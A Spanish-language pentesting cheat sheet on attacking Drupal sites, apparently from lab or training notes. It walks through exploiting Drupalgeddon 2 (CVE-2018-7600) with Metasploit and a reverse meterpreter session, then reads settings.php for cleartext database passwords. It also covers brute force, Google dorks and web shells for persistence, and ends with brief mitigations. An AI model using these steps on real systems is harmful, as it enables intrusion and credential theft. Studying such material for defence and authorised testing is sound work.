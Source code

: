 
-------
Para la explotación de gestores de contenido como Drupal, es importante tener en cuenta los siguientes pasos generales que suelen aplicarse a la mayoría de los CMS (Content Management Systems). Aquí te presento una guía básica:

---
#### Explotación Drupalgeddon

- Es importante verificar las tecnologías de la web para poder encontrar su versión, en este caso usaremos *whatweb*

```bash
whatweb http://<IpVictima>   # Si la version del drupal es "Drupal 8" es vulnerable a Drupalgeddon (RCE - CVE-2018-7600)
msfconsole                   # Abrimos metaesploit para realizar la explotacion
search CVE-2018-7600         # Tambien podemos buscar con "search Drupal 8"
use 0 
set RHOSTS <IpVictima>
set LHOST <IpAtacante>
set LPORT <PuertoEscuchaAtacante>
set TARGETURI /            # Si el drupal se encuentra en la raiz, pero si se encuentra en otro directorio tenemos que setearlo tambien drupal/
```

- Una vez dentro de la maquina podemos buscar los archivos de configuración de la siguiente manera:

```bash
meterpreter > 
			shell # Cambiamos de una sesion meterpreter a una shell para poder ejecutar comandos de linux
			
find / -name settings.php 2>/dev/null  # Buscamos desde la raiz el archivo de configuracion del drupal
cat /var/www/html/sites/default/settings.php # Abrimos el archivo de configuracion del drupal segun la ruta encontrada

# Viendo la configuracion de ese archivo podemos ver contraseñas en texto claro de la base de datos del drupal
```



---
### Recomendaciones a la hora de la explotación 
### 1. **Reconocimiento Inicial**

- **Enumerar Versiones**: Identifica la versión de Drupal que está siendo utilizada. Puedes buscar pistas en el código fuente del sitio web, comentarios HTML, encabezados HTTP, o mediante herramientas como `whatweb` o `wpscan`.
- **Buscar Plugins/Temas Instalados**: Identifica módulos y temas instalados que puedan ser vulnerables. Algunas extensiones o plugins tienen vulnerabilidades conocidas.

### 2. **Identificación de Vulnerabilidades**

- **Consulta Bases de Datos de Vulnerabilidades**: Usa bases de datos como CVE, Exploit-DB, NVD, o sitios como `cvedetails.com` para buscar vulnerabilidades conocidas en la versión de Drupal o en los módulos específicos identificados.
- **Utiliza Dorks para Google Hacking**: Busca información adicional mediante Google Dorks para encontrar versiones antiguas o páginas específicas que expongan detalles útiles (como `/CHANGELOG.txt` que puede indicar la versión de Drupal).

### 3. **Explotación de Vulnerabilidades**

- **Exploits Públicos**: Revisa plataformas como Exploit-DB o GitHub para scripts de explotación conocidos. Ejemplos de vulnerabilidades incluyen RCE (Remote Code Execution) y SQLi (SQL Injection).
- **Ejemplos Comunes de Explotación en Drupal**:
    - **Drupalgeddon 1 y 2 (CVE-2014-3704 y CVE-2018-7600)**: Son vulnerabilidades críticas que permitieron la ejecución remota de código. Estas han sido ampliamente documentadas y hay scripts de explotación disponibles. Verifica si la versión es vulnerable.
    - **SQL Injection**: Busca puntos vulnerables donde puedes inyectar SQL para extraer información sensible de la base de datos.

### 4. **Escalamiento de Privilegios**

- **Obtén Acceso al Panel de Administración**: Si logras acceso a una cuenta de administrador, podrás gestionar el sistema por completo. Los métodos comunes incluyen ataques de fuerza bruta si no hay políticas de bloqueo estrictas.
- **Persistencia y Shells Web**: Subir shells web es común una vez que has explotado alguna vulnerabilidad para asegurar persistencia y facilitar el control remoto del servidor.

### 5. **Mitigaciones**

- **Actualiza Drupal y los Módulos**: Siempre asegúrate de tener la última versión para evitar vulnerabilidades conocidas.
- **Eliminar Plugins Innecesarios**: Desactiva o elimina módulos y temas que no se utilicen.
- **Configura Políticas de Seguridad**: Implementa buenas prácticas como autentificación 2FA para accesos administrativos y configura correctamente permisos de usuario.

### Herramientas Útiles

- **`wpscan`** para enumeración y escaneo de vulnerabilidades (puede usarse también en otros CMS con opciones adicionales).
- **Burp Suite** para interceptar y modificar solicitudes HTTP, además de hacer fuzzing para detectar vulnerabilidades de inyección.
- **Metasploit** para aprovechar exploits disponibles y lanzar ataques automatizados.